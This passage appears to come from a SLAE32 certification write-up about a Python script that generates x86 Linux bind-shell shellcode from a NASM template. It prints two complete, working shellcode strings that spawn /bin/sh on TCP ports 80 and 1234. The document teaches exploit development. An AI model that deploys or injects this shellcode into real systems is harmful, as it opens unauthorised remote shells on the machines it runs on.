 Thanks to `argparse`, when you run the script, it asks you for the required arguments:

```bash
python3 script.py -h

# usage: script.py [-h] -p [1-65535] -t TEMPLATE -o OUTPUT

# optional arguments:
#   -h, --help            show this help message and exit
#   -p [1-65535], --port [1-65535]
#                         TCP Port for the Bind Shell
#   -t TEMPLATE, --template TEMPLATE
#                         Path of the NASM template file. Example: -t /tmp/template.nasm
#   -o OUTPUT, --output OUTPUT
#                         Path for the output file. Example: -o /tmp/output.nasm
```

If you pass the required arguments, it finally prints the shellcode which you can copy into a shellcode runner. Follows an example:

```bash
python3 script.py -p 80 -t ./template.nasm -o /tmp/output.nasm

# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 133 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb3\x01\xb1\x06\x51\x53\xb1\x02\x51\x89\xe1\xcd\x80\x4b\x53\xb7\x50\x66\x53\x31\xdb\xb3\x02\x66\x53\x89\xe1\xc0\xc3\x03\x53\x51\x89\xc6\x50\x31\xc0\xb0\x66\xc0\xcb\x03\x89\xe1\xcd\x80\xb3\x01\x6a\x01\x56\x89\xd8\xb0\x66\xc0\xc3\x02\x89\xe1\xcd\x80\xc0\xc3\x02\x53\x31\xdb\x53\x53\x56\x89\xd8\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xd9\xb3\x03\x89\xc7\x51\xb0\x3f\x89\xfb\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x89\xe1\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb8\x0b\x00\x00\x00\xcd\x80";
```

As I mentioned previously in the sidenotes, the script requires the following binaries:

- `objcopy` (from the package `binutils`)
- `nasm` (from the homonymous package)
- `ld` (The GNU linker)

The python script and the `NASM` template are stored inside the aforementioned Git repository, to be more specific they can be found in the folder[attempt/final/automation](https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/1/attempt/final/automation").

## Testing

As regards the testing phase, I decided to use the python script to generate shellcode for a Bind Shell listening on the TCP port `1234`:

```bash
python3 script.py -p 1234 -t ./template.nasm -o /tmp/output.nasm

# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 130 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb3\x01\xb1\x06\x51\x53\xb1\x02\x51\x89\xe1\xcd\x80\x4b\x53\x66\x68\x04\xd2\xb3\x02\x66\x53\x89\xe1\xc0\xc3\x03\x53\x51\x89\xc6\x50\x31\xc0\xb0\x66\xc0\xcb\x03\x89\xe1\xcd\x80\xb3\x01\x6a\x01\x56\x89\xd8\xb0\x66\xc0\xc3\x02\x89\xe1\xcd\x80\xc0\xc3\x02\x53\x31\xdb\x53\x53\x56\x89\xd8\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xd9\xb3\x03\x89\xc7\x51\xb0\x3f\x89\xfb\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x89\xe1\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";
```
